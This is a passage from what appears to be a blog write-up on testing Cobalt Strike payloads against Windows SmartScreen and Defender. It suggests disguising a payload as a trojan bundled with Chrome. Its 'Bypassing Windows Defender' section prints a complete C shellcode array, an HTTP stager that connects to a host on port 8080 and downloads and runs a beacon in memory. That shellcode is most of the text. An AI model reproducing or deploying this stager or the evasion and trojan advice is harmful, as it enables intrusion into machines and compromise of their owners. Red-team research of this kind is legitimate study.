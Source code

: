 #### SmartScreen

![SmartScreen blocking the payload](/media/playing-with-cobalt-strike-2-9.png)

Immediately upon downloading the file, Windows/Edge pushed an alert that SmartScreen blocked the file. However, this is due to the fact that this file has a signature and /or hash that does not match frequently downloaded files. This is not an issue with Cobalt Strike and could be solved by bundling it as a trojan with something else, such as Google Chrome.

#### Windows Defender

![Windows Defender blocking the payload](/media/playing-with-cobalt-strike-2-10.png)

Here's a more serious issue, for me as an attacker, at least. In reality, I am, of course, happy to see that Microsoft has not only identified the sample as a virus but done so correctly (`Backdoor:Win64/CobaltStrike.NP!dha`). I tried several more configurations, including stageless delivery and a PowerShell script, none of which were able to get past Windows Defender. However, that is expected behavior given default configurations.

### Bypassing Windows Defender

#### Generating Shellcode

Thus far, all payloads generated have resided on disk, implying that, to work past Windows Defender at this stage, blatantly malicious code must only be present in memory, if at all. Cobalt Strike supports shellcode generation; as I am most familiar with C, I generated shellcode in that language, which yielded the following:

```c
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";
```